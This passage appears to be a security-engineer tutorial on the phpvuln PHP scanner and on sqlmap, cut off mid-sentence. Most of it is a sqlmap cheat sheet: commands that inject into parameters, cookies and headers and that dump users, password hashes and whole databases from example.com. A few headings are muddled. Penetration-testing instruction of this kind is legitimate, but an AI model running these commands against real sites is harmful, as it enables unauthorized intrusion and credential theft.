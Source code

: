 # phpvuln sqlmaps - finding vulnerabilities in php code

Hi, I'm Carl Vincent Reyno, a security engineer at HackerOne. Today I'm going to discuss how to find vulnerabilities in PHP code and how sqlmap works.

So, According to the Zend (2023), A PHP vulnerability is an exploitable flaw in a PHP application that can be used to gain unauthorized access to systems that comprise or underlie that PHP application and further explaining it, PHPvuln is an open source OWASP penetration testing tool developed in Python 3 that may help you detect typical PHP vulnerabilities in PHP code, such as command injection, local/remote file inclusion, and SQL injection.


Here's the dependencies on how to execute this in python3 pre-installed in your computer. 

Let’s install it by using the following command:

```apt install python3```

<b> Installing the PHP 

```python
git clone https://github.com/ecriminal/phpvuln.git
cd phpvuln/
python3 phpvuln.py -h
```
![image](https://github.com/Eevalice/sqlmap-infosec-writeup/assets/79138019/52765652-0208-45c7-b011-7cedf905312a)





Here are the commands from `Generic.py` to generate basic arguments for sqlmap and to get a general idea about the topic:
```python
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

We are retrieving information from the sqlmaps:

<b>Retrieve Information</b>

<b>Internal</b>
```python
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```
<b>First database data</b>
```python
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

We are now creating a SQL Injection Place:

<b> ZAP/BURP Suite Configuration # </b>
```python
sqlmap -r req.txt --current-user
-
```
<b> Getting a Request Rejection # </b>
```python
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
<b> Posting a Request Rejection # </b>
```python
sqlmap -u "http://example.com" --data "username=*&password=*"
```

<b> Inserting some Injections in Headers and Other HTTP Methods # </b>
```python
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

<b> Indicating if the string is successfully injected in the Headers # </b>
```python
--string="string_showed_when_TRUE" 
```


Sqlmap supports the usage of -e or --eval to process each payload before delivering it with a oneliner in Python. This makes customizing the payload before sending it very simple and quick. In the following example, flask signs the flask cookie session with the known secret before transmitting it:

